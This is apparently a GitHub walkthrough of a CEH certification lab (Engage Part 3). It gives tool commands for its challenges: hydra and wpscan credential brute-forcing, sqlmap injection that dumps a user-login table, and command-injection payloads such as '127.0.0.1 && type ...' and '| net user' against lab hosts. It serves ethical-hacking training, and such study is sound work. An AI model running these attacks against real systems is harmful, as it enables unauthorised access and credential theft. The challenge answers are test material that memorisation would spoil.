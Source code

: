 **CEH Engage Part 3**

Part 3 of CEH Skill Check covers Session Hijacking, Evading IDS, Firewalls, and Honeypots, Hacking Web Servers, Hacking Web Applications, and SQL Injection modules. In this part, you must take over active network and application sessions, compromise firewall, IDS, and other perimeter defense mechanisms, and exploit the organization’s web applications. You need to note all the information discovered in this part of the Skill Check and proceed to the subsequent phases of the ethical hacking cycle in the next part of the Skill Check.

Flags

**Challenge 1:**

CEHORG suspects of a possible session hijacking attack on a machine in its network. The organisation has retained the network traffic data for the session at C:\Users\Admin\Documents in the EH Workstation – 2 as sniffsession.pcap. You have been assigned a task to perform an analysis and find out the protocol that has been used for sniffing on its network. (Format: AAA)

#Module 11 Session Hijacking - Lab2 - Wireshark#
![Screenshot 2024-12-12 at 11 49 56 AM](https://github.com/user-attachments/assets/d1210604-f1dc-4e0d-b089-729266bfc0a6)

**Challenge 2:**

Perform an HTTP-recon on www.certifiedhacker.com and find out the version of Nginx used by the web server. (Format: N.NN.N)

#Module 13 Hacking Web Servers - Lab1 - httprecon#
![Screenshot 2024-12-12 at 11 53 33 AM](https://github.com/user-attachments/assets/91dc1966-6db4-4f68-a38b-b722a7b749c8)


**Challenge 3:**

An FTP site is hosted on a machine in the CEHORG network. Crack the FTP credentials, obtain the “flag.txt” file and determine the content in the file. (Format: Aaaaaaa*AAA)

#Module 13 Hacking Web Servers - Lab2 - Hydra#

```
nmap -p 21 172.16.0.0/24

nmap -p 21 10.10.10.0/24

nmap -p 21 192.168.0.0/24
```

```
hydra -L <username.txt> -P <password.txt> ftp://172.16.0.12
```
![Screenshot 2024-12-12 at 12 08 57 PM](https://github.com/user-attachments/assets/cdab6979-a6b1-4ec8-863e-314000aa648b)

![Screenshot 2024-12-12 at 12 11 40 PM](https://github.com/user-attachments/assets/98e5919d-cd2a-4632-a20e-17075b4f6b14)

**Challenge 4:**

Perform Banner grabbing on the web application movies.cehorg.com and find out the ETag of the respective target machine. (Format: "NaNNNNNaaaNaaNN*N")

#Module 14 Hacking Web Applications - Lab1 - telnet#

```
telnet movies.cehorg.com 80
```
![Screenshot 2024-12-12 at 12 23 44 PM](https://github.com/user-attachments/assets/52183f4e-c8eb-447b-ba62-cdd385f3fd97)


**Challenge 5:**

Identify the Content Management System used by www.cehorg.com. (Format: AaaaAaaaa)

#Module 14 Hacking Web Applications - Lab1 - whatweb#

```
whatweb www.cehorg.com -v
```
![Screenshot 2024-12-12 at 2 49 33 PM](https://github.com/user-attachments/assets/b8dd8ae6-6773-4b62-a861-adf297c3056e)

**Challenge 6:**

Perform web application reconnaissance on movies.cehorg.com and find out the HTTP server used by the web application. (Format: Aaaaaaaaa-AAA/NN.N)

#Module 14 Hacking Web Applications - Lab1 - whatweb#

```
whatweb movies.cehorg.com -v
```
![Screenshot 2024-12-12 at 2 52 07 PM](https://github.com/user-attachments/assets/a7ea1d8a-b634-4cae-a2f1-2eb3c6282fc1)

**Challenge 7:**

Perform Web Crawling on the web application movies.cehorg.com and identify the number of live png files in images folder. (Format: N)

#Module 14 Hacking Web Applications - Lab1 - OWASP ZAP#

![Screenshot 2024-12-12 at 2 59 23 PM](https://github.com/user-attachments/assets/2c3a4375-fa10-4a52-8673-082863b51583)

**Challenge 8:**

Identify the load balancing service used by eccouncil.org. (Format: aaaaaaaaaa)

#Module 14 Hacking Web Applications - Lab1 - lbd command#
![Screenshot 2024-12-12 at 3 04 58 PM](https://github.com/user-attachments/assets/eb0e3f9d-4858-4e17-9eb0-03e0914d6445)


**Challenge 9:**

Perform a bruteforce attack on www.cehorg.com and find the password of user adam. (Format: aaaaaaNNNN)

#Module 14 Hacking Web Applications - Lab2 - wpscan#
```
wpscan --url http://cehorg.com/wp-login.php -U ./Usernames.txt -P ./Passwords.txt
```
![Screenshot 2024-12-12 at 4 14 02 PM](https://github.com/user-attachments/assets/89170933-70c0-4c81-950c-70deeffa24be)


**Challenge 10:**

Perform parameter tampering on movies.cehorg.com and find out the user for id 1003. (Format: Aaaaa)

#Module 14 Hacking Web Applications - Lab2 - XSS Vuberability#
![Screenshot 2024-12-12 at 3 19 27 PM](https://github.com/user-attachments/assets/37b7e592-3b46-40b6-910b-04c23303e353)


**Challenge 11:**

Perform a SQL Injection attack on movies.cehorg.com and find out the number of users available in the database. Use Jason/welcome as login credentials. (Format: N)

#Module 15 SQL Injection - Lab1 -sqlmap#

```
document.cookie
```
![Screenshot 2024-12-12 at 3 31 53 PM](https://github.com/user-attachments/assets/84fb2749-dbd7-4c51-8329-e30a63b8a00b)

```
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value that you copied in Step 8]" --dbs

```
![Screenshot 2024-12-12 at 3 42 09 PM](https://github.com/user-attachments/assets/88d0eba5-9d66-4657-9991-87a8e06dd2aa)

```
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step 8]" -D moviescope --tables
```
![Screenshot 2024-12-12 at 3 42 45 PM](https://github.com/user-attachments/assets/16e09ee5-282b-4d60-bb93-a17e1919943b)

```
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step 8]" -D moviescope -T User_Login --dump

```
![Screenshot 2024-12-12 at 3 43 38 PM](https://github.com/user-attachments/assets/084f945a-f7ce-480c-8f49-8a5f986ff0e6)

**Challenge 12:**

Perform XSS vulnerability test on www.cehorg.com and identify whether the application is vulnerable to attack or not. (Yes/No). (Format: Aa)

#Module 14 Hacking Web Applications - Lab1 - OWASP ZAP#
![Screenshot 2024-12-12 at 4 16 43 PM](https://github.com/user-attachments/assets/13fcd029-9dc9-48b0-98f4-7a8f9347f3c2)

**Challenge 13:**

A file named Hash.txt has been uploaded through DVWA (http://10.10.10.25:8080/DVWA). The file is located in the directory mentioned below. Access the file and crack the MD5 hash to reveal the original message; enter the content after cracking the hash. You can log into the DVWA using the following credentials. Note: Username- admin; Password- password Path: C:\wamp64\www\DVWA\hackable\uploads\Hash.txt Hint: Use “type” command to view the file. Use the following link to decrypt the hash- https://hashes.com/en/decrypt/hash (Format: Aa*aaNa)

#Module 14 Hacking Web Applications - Lab2 -DVWA#

```
127.0.0.1 && type C:\wamp64\www\DVWA\hackable\uploads\Hash.txt
```
![Screenshot 2024-12-12 at 4 29 20 PM](https://github.com/user-attachments/assets/8fda9f90-2733-4b15-87f6-ca012900ab96)
![Screenshot 2024-12-12 at 4 30 07 PM](https://github.com/user-attachments/assets/a9ca24db-1833-4bf0-b245-3e41d5681bfe)


**Challenge 14:**

Perform command injection attack on 10.10.10.25 and find out how many user accounts are registered with the machine. Note: Exclude admin/Guest user (Format: N)

#Module 14 Hacking Web Applications - Lab2 -DVWA#

```
| net user
```

**Challenge 15:**

You have identified a vulnerable web application on a Linux server at port 8080. Exploit the web application vulnerability, gain access to the server and enter the content of RootFlag.txt as the answer. (Format: Aa*aaNNNN)
